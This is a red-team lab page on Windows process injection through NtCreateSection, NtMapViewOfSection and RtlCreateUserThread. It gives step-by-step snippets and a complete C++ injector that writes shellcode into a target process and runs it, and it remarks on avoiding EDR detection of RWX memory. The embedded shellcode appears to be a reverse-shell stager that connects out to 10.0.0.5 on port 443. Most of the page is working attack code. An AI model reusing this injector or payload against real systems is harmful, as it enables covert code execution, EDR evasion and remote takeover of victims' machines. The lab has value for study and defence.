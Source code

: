 # NtCreateSection + NtMapViewOfSection Code Injection

## Overview

This lab is for a code injection technique that leverages Native APIs `NtCreateSection`, `NtMapViewOfSection` and `RtlCreateUserThread`.

* Section is a memory block that is shared between processes and can be created with `NtCreateSection` API 
* Before a process can read/write to that block of memory, it has to map a view of the said section, which can be done with `NtMapViewOfSection`
* Multiple processes can read from and write to the section through the mapped views

High level overwiew of the technique:

* Create a new memory section with RWX protection
* Map a view of the previously created section to the local malicious process with RW protection
* Map a view of the previously created section to a remote target process with RX protection. Note that by mapping the views with RW \(locally\) and RX \(in the target process\) we do not need to allocate memory pages with RWX, which may be frowned upon by some EDRs.
* Fill the view mapped in the local process with shellcode. By definition, the mapped view in the target process will get filled with the same shellcode
* Create a remote thread in the target process and point it to the mapped view in the target process to trigger the shellcode

## Execution

Let's create a new memory section in the local process, that will have RWX access rights set:

```cpp
fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
```

We can see the section got created and we obtained its handle 0x88:

![](../../.gitbook/assets/image%20%2864%29.png)

Let's create an RW view of the section in our local process and obtain its address which will get stored in `localSectionAddress`:

```cpp
fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);
```

![](../../.gitbook/assets/image%20%2869%29.png)

Let's create another view of the same section in a target process \(notepad.exe PID 6572 in our case\), but this time with RX protection. The memory address of the view will get stored in `remoteSectionAddress` variable:

![](../../.gitbook/assets/image%20%28183%29.png)

We can now copy the shellcode into our `localSectionAddress`, which will get automatically mirrored/reflected in the `remoteSectionAddress` as it's a view of the same section shared between our local and target processes:

```cpp
memcpy(localSectionAddress, buf, sizeof(buf));
```

Below shows how the `localSectionAddress` gets filled with the shellcode and at the same time the `remoteSectionAddress` at `0x000002614ed50000` inside notepad \(on the right\) gets filled with the same shellcode:

![](../../.gitbook/assets/populating-section-with-shellcode.gif)

We can now create a remote thread inside the notepad.exe and make the `remoteSectionAddress` its start address in order to trigger the shellcode:

```cpp
fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);
```

![](../../.gitbook/assets/rtlcreateuserthreadshell.gif)

## Code

```cpp
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ntdll")

typedef struct _LSA_UNICODE_STRING { USHORT Length;	USHORT MaximumLength; PWSTR  Buffer; } UNICODE_STRING, * PUNICODE_STRING;
typedef struct _OBJECT_ATTRIBUTES {	ULONG Length; HANDLE RootDirectory; PUNICODE_STRING ObjectName; ULONG Attributes; PVOID SecurityDescriptor;	PVOID SecurityQualityOfService; } OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;
typedef struct _CLIENT_ID { PVOID UniqueProcess; PVOID UniqueThread; } CLIENT_ID, *PCLIENT_ID;
using myNtCreateSection = NTSTATUS(NTAPI*)(OUT PHANDLE SectionHandle, IN ULONG DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN PLARGE_INTEGER MaximumSize OPTIONAL, IN ULONG PageAttributess, IN ULONG SectionAttributes, IN HANDLE FileHandle OPTIONAL); 
using myNtMapViewOfSection = NTSTATUS(NTAPI*)(HANDLE SectionHandle,	HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits, SIZE_T CommitSize, PLARGE_INTEGER SectionOffset, PSIZE_T ViewSize, DWORD InheritDisposition, ULONG AllocationType, ULONG Win32Protect);
using myRtlCreateUserThread = NTSTATUS(NTAPI*)(IN HANDLE ProcessHandle, IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL, IN BOOLEAN CreateSuspended, IN ULONG StackZeroBits, IN OUT PULONG StackReserved, IN OUT PULONG StackCommit, IN PVOID StartAddress, IN PVOID StartParameter OPTIONAL, OUT PHANDLE ThreadHandle, OUT PCLIENT_ID ClientID);

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
	
	myNtCreateSection fNtCreateSection = (myNtCreateSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtCreateSection"));
	myNtMapViewOfSection fNtMapViewOfSection = (myNtMapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtMapViewOfSection"));
	myRtlCreateUserThread fRtlCreateUserThread = (myRtlCreateUserThread)(GetProcAddress(GetModuleHandleA("ntdll"), "RtlCreateUserThread"));
	SIZE_T size = 4096;
	LARGE_INTEGER sectionSize = { size };
	HANDLE sectionHandle = NULL;
	PVOID localSectionAddress = NULL, remoteSectionAddress = NULL;
	
	// create a memory section
	fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
	
	// create a view of the memory section in the local process
	fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);

	// create a view of the memory section in the target process
	HANDLE targetHandle = OpenProcess(PROCESS_ALL_ACCESS, false, 1480);
	fNtMapViewOfSection(sectionHandle, targetHandle, &remoteSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_EXECUTE_READ);

	// copy shellcode to the local view, which will get reflected in the target process's mapped view
	memcpy(localSectionAddress, buf, sizeof(buf));
	
	HANDLE targetThreadHandle = NULL;
	fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);

	return 0;
}
```

## References

{% embed url="http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtCreateSection.html" %}

{% embed url="https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FRtlCreateUserThread.html" %}

{% embed url="https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/section-objects-and-views" %}

